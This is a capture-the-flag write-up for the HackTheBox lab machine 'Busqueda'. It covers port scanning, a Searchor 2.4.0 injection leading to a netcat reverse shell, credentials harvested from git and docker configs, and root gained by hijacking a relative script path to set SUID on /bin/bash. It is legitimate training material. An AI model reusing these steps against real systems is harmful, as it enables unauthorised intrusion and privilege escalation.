 ```yaml
---
title: "Busqueda"
date: 2025-06-20
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Busqueda

![](assets/Pasted%20image%2020250607172201.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.11.208
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-07 17:27 CEST
Nmap scan report for 10.10.11.208
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   40.61 ms 10.10.14.1
2   40.83 ms 10.10.11.208

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.88 seconds
```

Add `searcher.htb` to `/etc/hosts`.

The site is a Flask project using `searchor` `2.4.0`.

![](assets/Pasted%20image%2020250608160323.png)

Searching a little, we find a POC.

[https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-)

## Initial Access

So, capture the request with Caido and edit the `search` param.

![](assets/Pasted%20image%2020250608161312.png)

```shell
$ rlwrap nc -lnvp 7777                        
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.208] 42334
/bin/sh: 0: can't access tty; job control turned off
$ whoami
svc
```

Get the flag

```shell
$ cat user.txt
0d5be9ebe2b24d31d36913f7abe06b8a
```

## Privilege Escalation

Inside the app project's folder there is a `.git` folder, the config file has the `svc` password.

![](assets/Pasted%20image%2020250607180554.png)

Re-enter via SSH for an easier shell.

```shell
$ ssh svc@10.10.11.208

Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

...
The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Apr  4 17:02:09 2023 from 10.10.14.19
```

With `sudo -l`:

```shell
svc@busqueda:/opt/scripts$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

```shell
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' 960873171e2e | jq .
```

```shell
"Env": [
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
```

```shell
"Env": [
      "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
      "MYSQL_USER=gitea",
      "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
      "MYSQL_DATABASE=gitea",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "GOSU_VERSION=1.14",
      "MYSQL_MAJOR=8.0",
      "MYSQL_VERSION=8.0.31-1.el8",
      "MYSQL_SHELL_VERSION=8.0.31-1.el8"
    ],
```

We can try these admin credentials on Gitea.

![](assets/Pasted%20image%2020250608181134.png)

Looking at the code for `system-checkup.py` we can notice that `full-checkup.sh` is being called without an absolute path.

![](assets/Pasted%20image%2020250608181826.png)

```shell
svc@busqueda:/tmp$ echo -e '#!/bin/bash\nchmod u+s /bin/bash' > full-checkup.sh && chmod +x full-checkup.sh
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ bash -p
bash-5.1# whoami
root
```

## Post Exploitation

Get the flag

```shell
bash-5.1# cat /root/root.txt
59784d838c55bf5fe8089b49bac638d6
```
